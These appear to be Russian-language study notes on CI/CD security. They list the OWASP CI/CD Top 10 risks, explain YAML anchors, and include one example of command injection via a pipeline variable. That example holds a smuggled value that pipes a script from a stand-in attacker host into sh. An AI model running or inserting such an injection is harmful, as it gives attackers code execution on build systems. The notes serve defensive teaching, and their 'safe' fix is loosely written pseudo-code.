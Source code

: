 https://owasp.org/www-project-top-10-ci-cd-security-risks/
https://cheatsheetseries.owasp.org/cheatsheets/CI_CD_Security_Cheat_Sheet.html

### Anchors и Aliases 
Anchor (&): Создает "ссылку" на фрагмент данных в YAML-файле (например, &my_anchor some value).
Alias (*): Использует ранее созданную ссылку для копирования ее значения (например, *my_anchor).

### Python -v в CI/CD
```
USER_INPUT="my_script.py; curl http://attacker.site | sh"
python -v $USER_INPUT # вместо $USER_INPUT может быть USER_INPUT="my_script.py; curl http://attacker.site | sh", что выполнит обращение к сайту и выполнение скрипта - нужно только отправить переменную

# уязвимый пример CI CD
run_debug:
  script:
    - python -v $DEBUG_SCRIPT

# Безопасно
import subprocess : subprocess.run([“python”, “-v”, script_name]) # Безопасное использование
Всегда проверяйте содержимое переменной перед выполнением
Изолированное выполнение: используйте контейнеры или эфемерные исполнители, чтобы минимизировать влияние в случае внедрения команды.
```

CICD-SEC-1: Insufficient Flow Control Mechanisms
Наличие QG
Настройте правила защиты ветвей 
Запретите автоматический merge в main ветку

CICD-SEC-2: Inadequate Identity and Access Management
CICD-SEC-3: Dependency Chain Abuse
CICD-SEC-4: Poisoned Pipeline Execution (PPE)
CICD-SEC-5: Insufficient PBAC (Pipeline-Based Access Controls)
CICD-SEC-6: Insufficient Credential Hygiene
CICD-SEC-7: Insecure System Configuration
CICD-SEC-8: Ungoverned Usage of Third-Party Services
CICD-SEC-9: Improper Artifact Integrity Validation

CICD-SEC-10: Insufficient Logging and Visibility


